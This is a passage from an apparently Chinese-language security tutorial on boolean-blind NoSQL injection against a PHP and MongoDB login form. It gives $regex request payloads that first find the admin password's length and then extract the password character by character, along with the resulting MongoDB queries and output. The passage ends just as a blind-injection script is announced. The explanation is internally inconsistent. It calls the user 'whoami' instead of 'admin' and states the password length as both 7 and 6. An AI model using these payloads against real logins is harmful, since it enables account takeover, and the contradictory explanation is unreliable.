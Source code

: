 布尔盲注重点在于怎么逐个提取字符，如下所示，在已知一个用户名的情况下判断密码的长度：

```php
username=admin&password[$regex]=.{4}    // 登录成功
username=admin&password[$regex]=.{5}    // 登录成功
username=admin&password[$regex]=.{6}    // 登录成功
username=admin&password[$regex]=.{7}    // 登录失败
......
```

![img](https://p1.ssl.qhimg.com/t0138cc1f2230a279cb.png)

![img](https://p3.ssl.qhimg.com/t0117b53806ccdb3098.png)

在 `password[$regex]=.{6}` 时可以成功登录，但在 `password[$regex]=.{7}` 时登录失败，说明该 whoami 用户的密码长度为 7。

提交的数据进入 PHP 后的数据如下：

```php
array(
    'username' => 'admin',
    'password' => array('$regex' => '.{6}')
)
```

进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({'username':'admin', 'password':{$regex:'.{6}'}})
{ "_id" : ObjectId("60fa9c7b257f18542b68c4b8"), "username" : "admin", "password" : "123456" }
> db.users.find({'username':'admin', 'password':{$regex:'.{7}'}})
>
```

由于 whoami 用户的 password 长度为 6，所以查询条件 `{'username':'admin', 'password':{$regex:'.{6}'}}` 为真，便能成功登录，而 `{'username':'admin', 'password':{$regex:'.{7}'}}` 为假，自然也就登录不了。

知道 password 的长度之后我们便可以逐位提取 password 的字符了：

```javascript
username=admin&password[$regex]=1.{5}
username=admin&password[$regex]=12.{4}
username=admin&password[$regex]=123.{3}
username=admin&password[$regex]=1234.{2}
username=admin&password[$regex]=12345.*
username=admin&password[$regex]=123456
或
username=admin&password[$regex]=^1
username=admin&password[$regex]=^12
username=admin&password[$regex]=^123
username=admin&password[$regex]=^1234
username=admin&password[$regex]=^12345
username=admin&password[$regex]=^123456
```

下面给出一个 MongoDB 盲注脚本：
